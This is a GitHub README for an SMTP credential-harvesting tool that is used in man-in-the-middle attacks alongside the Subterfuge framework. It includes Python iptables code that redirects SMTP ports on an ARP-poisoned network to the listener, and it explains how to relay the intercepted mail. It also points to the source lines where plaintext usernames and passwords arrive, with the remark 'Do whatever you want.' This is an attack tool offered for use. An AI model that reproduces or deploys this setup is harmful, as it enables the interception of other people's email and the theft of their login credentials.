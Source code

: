 # mitm-smtp-listener

_mitm-smtp-listener_ acts as a SMTP-server with a self-signed certificate, however behaves differently at certain points of the ESMTP protocol in order to eavesdrop on the username and password.  
It was originally developed for man-in-the-middle attacks on networks and works well with [Subterfuge](http://code.google.com/p/subterfuge/), an automated man-in-the-middle attack framework.

---

## Setup

The following steps are explained for Subterfuge, however should work in any other man-in-the-middle attack scenario.
Assuming we have an ARP poisoned network in which all traffic passes our machine, we have to redirect all TCP traffic bound for SMTP ports (25, 465, 587) to our twisted reactor.
For Subterfuge, do this using `iptables` in the file `attackctrl.py`. The function `iptablesconfig` should look like this:


```python
def iptablesconfig():
    os.system('iptables -F')
    os.system('iptables -X')
    os.system('iptables -t nat -F')
    os.system('iptables -t nat -X')
    os.system('iptables -t mangle -F')
    os.system('iptables -t mangle -X')
    os.system('iptables -P INPUT ACCEPT')
    os.system('iptables -P FORWARD ACCEPT')
    os.system('iptables -P OUTPUT ACCEPT')
    time.sleep(1)
    os.system('iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 	10000')

   	# THIS IS WHERE THE SMTP PORTS ARE ROUTED TO OUR REACTOR 
    print "SMTP Prerouting configuration"
    os.system('iptables -t nat -A PREROUTING -p tcp --dport 25 -j REDIRECT --to-port    9998')
    os.system('iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-port    9997')
    os.system('iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-port    9996')
   
    time.sleep(1)
    print "Iptables Prerouting Configured\n"
    
    print 'Configuring System...'
    os.system('sysctl -w net.ipv4.ip_forward=1')
    print "IP Forwarding Enabled."
```

Next, when everything has been set up, import jjmail  
`from jjmail import jjsmtp`  
and tell it to set up everything:  
`jjsmtp.configureSMTPTraffic()`  

In Subterfuge, this is done in `sslstrip.py`, right after `reactor.listenTCP(int(listenPort), strippingFactory)`.


## Relaying mails

There is no implementation of listening to which SMTP-server any mail is actually bound for. Thus all messages must be sent via a relay server of your choice. For this, enter your credentials in lines __33 to 36__ in `jjsmtp.py`.

## Getting the credentials

Raw-Text username rolls in on line 161, raw-text password rolls in on line 166. Do whatever you want, but please be careful!
